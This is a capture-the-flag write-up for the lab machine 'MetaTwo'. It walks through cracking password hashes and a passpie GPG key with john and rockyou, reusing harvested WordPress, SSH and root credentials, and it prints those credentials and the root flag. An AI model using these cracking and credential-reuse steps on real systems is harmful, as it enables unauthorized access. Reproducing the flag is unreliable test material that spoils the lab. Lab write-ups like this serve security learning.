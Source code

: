 # Meta Two





Store the passwords in a file !
> I named ```hashes```

By an brute force attack we find this
```
john -w=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hashes
```

We've got the manager password !
```
partylikearockstar
```

So connect to the url: ```metapress.htb/wp-admin``` by the following credentials
```
manager@metapress.htb
partylikearockstart
```





In the file ```mailer/send_email.php``` we find the jnelson ssh credentials
```
jnelson@metapress.htb
Cb4_JmWM8zUZWMu@Ys
```

We found the directory ```~/.passpie```. And inside the directory ```~/.passpie/ssh``` where We got
```
total 16
dr-xr-x--- 2 jnelson jnelson 4096 Oct 25 12:52 .
dr-xr-x--- 3 jnelson jnelson 4096 Oct 25 12:52 ..
-r-xr-x--- 1 jnelson jnelson  683 Oct 25 12:52 jnelson.pass
-r-xr-x--- 1 jnelson jnelson  673 Oct 25 12:52 root.pass
```

The ```passpie``` service can helps up to the privilege scalation ! In the directory ```~/.passpie```we find the private gpg key
```
.keys
```

We can try to brute force the file. So copy the (or extract) the private gpg key part (cf. [here](./tmp/private_key.txt) )
```
-----BEGIN PGP PRIVATE KEY BLOCK-----

lQUBBGK4V9YRDADENdPyGOxVM7hcLSHfXg+21dENGedjYV1gf9cZabjq6v440NA1
AiJBBC1QUbIHmaBrxngkbu/DD0gzCEWEr2pFusr/Y3yY4codzmteOW6Rg2URmxMD
...
...
...
V9YCGwwACgkQOHd1w1dF0gOm5gD9GUQfB+Jx/Fb7TARELr4XFObYZq7mq/NUEC+P
o3KGdNgA/04lhPjdN3wrzjU3qmrLfo6KI+w2uXLaw+bIT1XZurDN
=7Uo6
-----END PGP PRIVATE KEY BLOCK-----
```

With ```john```, can brute force it !
```
gpg2john private_key.txt > private_key_cracked.txt
```


We generated a file where the gpg key was "broken" (cf. [here](./tmp/private_key_cracked.txt) )
```
Passpie:$gpg$*17*54*3072*e975911867862609115f302a3d0196aec0c2ebf79a84c0303056df921c965e589f82d7dd71099ed9749408d5ad17a4421006d89b49c0*3*254*2*7*16*21d36a3443b38bad35df0f0e2c77f6b9*65011712*907cb55ccb37aaad:::Passpie (Auto-generated by Passpie) <passpie@local>::private_key.txt
```

Now, use ```john``` to get the real password
```
john private_key_cracked.txt -w=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

We have the password !
```
blink182
```

Let's back to the ```jnelson@meta2``` session !
```
jnelson@meta2:~$ touch pass
jnelson@meta2:~$ passpie export pass
```

We enter the password we cracked ! (```blink182```) and open the file ```pass``` ! (cf. [file](./tmp/pass) )
```
  fullname: root@ssh
  login: root
  name: ssh
  password: !!python/unicode 'p7qfAZt4_A1xo_0x'
```

We have the root password ! let's connect as root !
```
su root
```
> Enter p7qfAZt4_A1xo_0x as password !

Get the flag at ```/root/root.txt```
```
834a8dcb8c4488aef36d213477c44ac1
```

Done !

### References 
```
https://0xdedinfosec.vercel.app/blog/hackthebox-metatwo-writeup
https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357
https://www.youtube.com/watch?v=vP6Uv_sqWh4
```
